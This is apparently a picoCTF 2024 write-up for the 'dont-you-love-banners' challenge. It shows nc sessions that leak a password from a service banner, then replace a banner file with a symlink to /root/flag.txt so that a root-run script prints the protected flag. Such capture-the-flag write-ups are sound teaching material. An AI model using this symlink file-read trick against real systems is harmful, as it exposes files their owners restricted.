 # dont-you-love-banners

# Description
Can you abuse the banner?
Additional details will be available after launching your challenge instance.
# Solution

-  After connecting both server the first one display some information about something that looks like a ssh connection , in the second server it ask for a password that is the one reveled at the first server then it ask for more questions that can be easily found in the web after responding the questions I get a session with a user at the server.

``` bash
nc tethys.picoctf.net 53461
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
nc tethys.picoctf.net 55639
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON           
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ cat banner
*************************************
**************WELCOME****************
*************************************
```

- Once I get into the server exploring the files at home directory I didn't find any flag going further into the root directory there's 2 files ```flag.txt``` and ```script.py``` after trying to show the flag with a single ```cat``` command I get to know that I don't have enough permission so I try to run the python script then it displayed the same text  of the first connection where I had to answer the questions since It display the banner when I connect to the server I deleted the banner file at home directory and created a link to the flag file with the exact same name since it has the same name when I reconnect to the server I get the flag.

```bash
cd root/
player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ ls -la
	ls -la
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr 14 22:55 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
player@challenge:/root$ cat flag.txt
cat flag.txt
cat: flag.txt: Permission denied
python3 script.py
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON           
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
cd 
player@challenge:~$ rm banner	
rm banner
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
nc tethys.picoctf.net 55639
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}
```

# References
- [LU1F3R /picoCTF-2024](https://github.com/LU1F3R/picoCTF-2024/blob/main/dont-you-love-banners.md)

